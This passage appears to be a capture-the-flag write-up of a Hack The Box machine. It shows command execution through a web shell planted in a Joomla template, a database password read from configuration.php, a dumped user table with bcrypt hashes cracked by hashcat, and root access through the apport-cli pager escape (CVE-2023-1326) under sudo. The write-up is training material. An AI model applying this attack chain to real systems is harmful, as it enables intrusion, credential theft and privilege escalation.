*   Trying 10.10.11.242:80...
* Connected to dev.devvortex.htb (10.10.11.242) port 80
> GET /templates/cassiopeia/error.php?cmd=whoami HTTP/1.1
> Host: dev.devvortex.htb
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 29 Nov 2023 08:58:40 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
www-data
* Connection #0 to host dev.devvortex.htb left intact
```

Nice! Now is time to elevate to a NC connection! But it was failing(most lileky wrong HTML encoding) so I decided to upload a whole php webshell into same Cassiopea tempalte folder so I can get a whole PHP webshell and finally elevate a NC:  


Now that we are in we can see the lewis credentials from the DB and some kind of secret?

&nbsp;

```
cat configuration.php
<?php
class JConfig {
        public $offline = false;
        public $offline_message = 'This site is down for maintenance.<br>Please check back again soon.';
        public $display_offline_message = 1;
        public $offline_image = '';
        public $sitename = 'Development';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = 20;
        public $access = 1;
        public $debug = false;
        public $debug_lang = false;
        public $debug_lang_const = true;
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'lewis';
        public $password = 'P4ntherg0t1n5r3c0n##';
        public $db = 'joomla';
        public $dbprefix = 'sd4fg_';
        public $dbencryption = 0;
        public $dbsslverifyservercert = false;
        public $dbsslkey = '';
        public $dbsslcert = '';
        public $dbsslca = '';
        public $dbsslcipher = '';
        public $force_ssl = 0;
        public $live_site = '';
        public $secret = 'ZI7zLTbaGKliS9gq';
        public $gzip = false;
        public $error_reporting = 'default';
        public $helpurl = 'https://help.joomla.org/proxy?keyref=Help{major}{minor}:{keyref}&lang={langcode}';
        public $offset = 'UTC';
        public $mailonline = true;
        public $mailer = 'mail';
        public $mailfrom = 'lewis@devvortex.htb';
        public $fromname = 'Development';
        public $sendmail = '/usr/sbin/sendmail';
        public $smtpauth = false;
        public $smtpuser = '';
        public $smtppass = '';
        public $smtphost = 'localhost';
        public $smtpsecure = 'none';
        public $smtpport = 25;
        public $caching = 0;
        public $cache_handler = 'file';
        public $cachetime = 15;
        public $cache_platformprefix = false;
        public $MetaDesc = '';
        public $MetaAuthor = true;
        public $MetaVersion = false;
        public $robots = '';
        public $sef = true;
        public $sef_rewrite = false;
        public $sef_suffix = false;
        public $unicodeslugs = false;
        public $feed_limit = 10;
        public $feed_email = 'none';
        public $log_path = '/var/www/dev.devvortex.htb/administrator/logs';
        public $tmp_path = '/var/www/dev.devvortex.htb/tmp';
        public $lifetime = 15;
        public $session_handler = 'database';
        public $shared_session = false;
        public $session_metadata = true;
}www-data@devvortex:~/dev.devvortex.htb$
```

Now checking under home we can see only logans username and not the Lewis which mean we should login into DB and get the Logan's password from there maybe?

```
www-data@devvortex:/home/logan$ ls
ls
user.txt
www-data@devvortex:/home/logan$
```

And can we crack Logans password's hash?

```
mysql> select * from sd4fg_users;
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-29 09:23:34 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)

mysql>
```

Yeah baby!

```
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Wed Nov 29 10:46:06 2023 (8 secs)
Time.Estimated...: Wed Nov 29 10:46:14 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      182 H/s (5.20ms) @ Accel:12 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1440/14344385 (0.01%)
Rejected.........: 0/1440 (0.00%)
Restore.Point....: 1296/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: winston -> michel

Started: Wed Nov 29 10:46:00 2023
```

And with his credentials we can login into SSH and grab our first flag!

```
Last login: Tue Nov 21 10:53:48 2023 from 10.10.14.23
logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt 
be1a9bbf544c850e05f58424ff1d5501
logan@devvortex:~$
```

* * *

## Root.txt

Now the easiest part is alway to start with "basics" and check for possible sudo permissions and indeed we have them:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
logan@devvortex:~$
```

Now this apport-cli is not part of the GTFO bins so we can read about what is from Debian KB: https://manpages.debian.org/experimental/apport/apport-cli.1.en.html

Basically it's a reporting feature for users from KDE gui. So far nothing interesting except the file part, seems like it uses some python scripts from:

```
FILES

/usr/share/apport/symptoms/*.py
    Symptom scripts. These ask a set of interactive questions to determine the package which is responsible for a particular problem. (For some problems like sound or storage device related bugs there are many places where things can go wrong, and it's not immediately obvious for a bug reporter where the problem is.)
```

Wonder if we have write permissions to plant a malicious python script maybe?

```
logan@devvortex:/usr/share/apport/symptoms$ touch test.txt
touch: cannot touch 'test.txt': Permission denied
logan@devvortex:/usr/share/apport/symptoms$
```

Ok we can't this mean we need to use the -f option (indicate file/pid/packet)?

```
When being called with exactly one argument and no option, apport-cli uses some heuristics to find out "what you mean" and reports a bug against the given symptom name, package name, program path, or PID. If the argument is a .crash or .apport file, it uploads the stored problem report to the bug tracking system.

For desktop systems with a graphical user interface, you should consider installing the GTK or KDE user interface (apport-gtk or apport-kde). They accept the very same options and arguments. apport-cli is mainly intended to be used on servers.

OPTIONS

-f, --file-bug
    Report a (non-crash) problem. If neither --package, --symptom, or --pid are specified, then it displays a list of available symptoms. If none are available, it aborts with an error.

    This will automatically attach information about your operating system and the package version etc. to the bug report, so that the developers have some important context.
```

om then the file must be a crash or apport. But then googling around seems like there is a CVE that could be used to PE specifically if APPORT-CLI version is below 2.26? https://www.redpacketsecurity.com/canonical-apport-cli-privilege-escalation-cve-2023-1326/

The version is indeed lower so we should be able to use it?

```
logan@devvortex:/usr/share/apport/symptoms$ apport-cli -v
2.20.11
logan@devvortex:/usr/share/apport/symptoms$
```

And specifically this should be able to invoke the bug? https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb

### **POC:**

```
fix: Do not run sensible-pager as root if using sudo/pkexec

The apport-cli supports view a crash. These features invoke the default
pager, which is likely to be less, other functions may apply.

It can be used to break out from restricted environments by spawning an
interactive system shell. If the binary is allowed to run as superuser
by sudo, it does not drop the elevated privileges and may be used to
access the file system, escalate or maintain privileged access.

apport-cli should normally not be called with sudo or pkexec. In case it
is called via sudo or pkexec execute `sensible-pager` as the original
user to avoid privilege elevation.

Proof of concept:

$ sudo apport-cli -c /var/crash/xxx.crash
[...]
Please choose (S/E/V/K/I/C): v
!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)


This fixes CVE-2023-1326.

Bug: https://launchpad.net/bugs/2016023
Signed-off-by: Benjamin Drung <benjamin.drung@canonical.com>
```

Ok now we need to generate a legit crash file first! So my idea is to use the app.crash file from this repo to invoke a RCE: https://github.com/DonnchaC/ubuntu-apport-exploitation/tree/master

And by analyzing it in V(report) mode we can execute commands as root user(rememver to use the ! in front of any command):

```
logan@devvortex:/tmp$ sudo /usr/bin/apport-cli -c ./yovecio.crash 

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (0.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)
root
!done  (press RETURN)
45789ca1e5a4065ba7286bc8219cf520
!done  (press RETURN)
```

&nbsp;